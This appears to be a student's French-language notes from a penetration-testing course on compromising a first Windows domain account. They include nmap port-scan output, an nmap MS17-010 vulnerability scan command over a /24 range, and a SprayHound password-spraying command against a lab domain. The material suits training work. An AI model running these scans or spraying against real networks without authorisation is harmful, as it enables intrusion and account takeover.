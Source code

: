 ## Compromettez un premier compte
Avec les notes que vous avez prises sur les différents éléments du système d’information cible, vous êtes maintenant capable de choisir vos premières cibles pour compromettre un premier compte sur le domaine.
Lors du `nbtscan` j'ai trouver une machine windows. Donc je fais du nmap sur elle
```
└─# nmap -sV -Pn -p- --min-rate 3000 212.83.142.26
Host is up (0.99s latency).
Not shown: 985 closed tcp ports (reset)
PORT      STATE    SERVICE
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
1755/tcp  filtered wms
1935/tcp  filtered rtmp
3077/tcp  filtered orbix-loc-ssl
3389/tcp  open     ms-wbt-server
5200/tcp  filtered targus-getdata
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49156/tcp open     unknown
49157/tcp open     unknown
49161/tcp open     unknown
```

Parmi ces services, voici quelques vulnérabilités que je trouve régulièrement, et qui me permettent de prendre la main sur la machine lorsqu’elle est exploitée :
`MS17-010` est une vulnérabilité sur le service SMB des machines Windows. Elle a été corrigée en 2017, mais vous trouverez régulièrement des  machines qui ne sont plus mises à jour dans un système d’information. Pour identifier des machines vulnérables, l’outil nmap vous sera utile.
```
└─# nmap --script smb-vuln-ms17-010.nse -p445 --open 212.83.142.0/24


```

## Profitez d’une politique de mot de passe faible
Vous avez découvert la politique de mot de passe de l’entreprise lors de votre phase de reconnaissance. La connaître vous permettra de tenter de trouver des premiers identifiants valides mais faibles.

Pour cela, vous pouvez faire du `password spraying`. Cela signifie que vous allez tenter d’utiliser un mot de passe simple sur tout ou partie des utilisateurs du domaine.
Il existe d’ailleurs beaucoup d’outils pour vérifier la validité d’un mot de passe sur plusieurs comptes. L’outil SprayHound en est un.

`sprayhound -U ./utilisateurs.txt -p Medicex1 -d medic.ex -dc 10.10.10.2`
le mot de passe Medicex1 sera testé sur la liste des utilisateurs fournie dans le fichier utilisateurs.txt.
